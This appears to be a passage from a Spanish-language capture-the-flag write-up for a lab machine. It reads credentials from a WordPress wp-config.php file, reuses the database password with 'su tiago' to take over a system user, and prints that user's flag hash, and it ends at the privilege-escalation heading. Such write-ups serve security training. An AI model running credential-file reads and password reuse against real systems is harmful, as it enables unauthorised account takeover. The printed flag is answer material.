 ## Escalate user tiago

Si leemos el archivo llamado `wp-config.php` que suele llevar credenciales podremos ver lo siguiente:

```shell
cat /usr/www/html/wordpress/wp-config.php
```

Info:

```
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'WPr00t3d123!' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Veremos una contraseña vamos a probarla con el usuario `tiago` que tenemos a nivel de sistema a ver si fuera reutilizada.

```shell
su tiago
```

Metemos como contraseña `WPr00t3d123!`...

Info:

```
tiago@remote:/var/www/html/wordpress$ whoami
tiago
```

Con esto veremos que estaremos dentro de forma exitosa, ahora vamos a leer la `flag` del usuario.

> user.txt

```
ede553d38ed011f766ecfeac8902a501
```

## Escalate Privileges
